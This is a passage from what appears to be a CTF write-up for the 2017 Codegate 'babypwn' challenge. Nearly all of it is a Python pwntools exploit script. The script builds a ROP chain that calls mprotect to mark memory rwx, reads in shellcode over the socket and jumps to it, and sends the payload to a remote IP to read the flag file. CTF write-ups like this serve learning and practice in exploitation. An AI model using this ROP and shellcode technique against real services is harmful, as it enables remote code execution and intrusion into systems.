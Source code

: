 ```
addr_read = libc_base + offset_read
print "read :", hex(addr_read)

r.close()


# -- STAGE 2 mprotect() a location to rwx and call read() to get shellcode in there --

buf_2 = ""
buf_2 += p32(addr_mprotect)
buf_2 += p32(0x08048eed)    # pop esi; pop edi; pop ebp; ret; 
buf_2 += p32(0x0804b000)    # address to mprotect()
buf_2 += p32(0x100)         # size to mprotect
buf_2 += p32(0x7)           # rwx

buf_2 += p32(addr_read)
buf_2 += p32(0x08048eed)    # pop esi; pop edi; pop ebp; ret; 
buf_2 += p32(0x4)           # sockfd
buf_2 += p32(0x0804b004)    # read shellcode in here
buf_2 += p32(0x100)         # number of bytes to read

buf_2 += p32(0x0804b004)    # return to shellcode
buf_2 += "D"*200

payload = buf_1 + buf_2

r = remote("110.10.212.130", 8889)

r.recvuntil("Select menu > ")

r.sendline("2")
r.recvuntil("Input Your Message : ")

r.send(payload)
r.recvuntil("Select menu > ")

r.sendline("3")
d = r.recv()

# read the contents of file flag 
sc = asm(shellcraft.linux.cat("flag", 4))
r.send(sc)
print "Getting flag:", r.recvall()
```

Win!!!

![](/images/2017/codegate/babypwn/07.png)

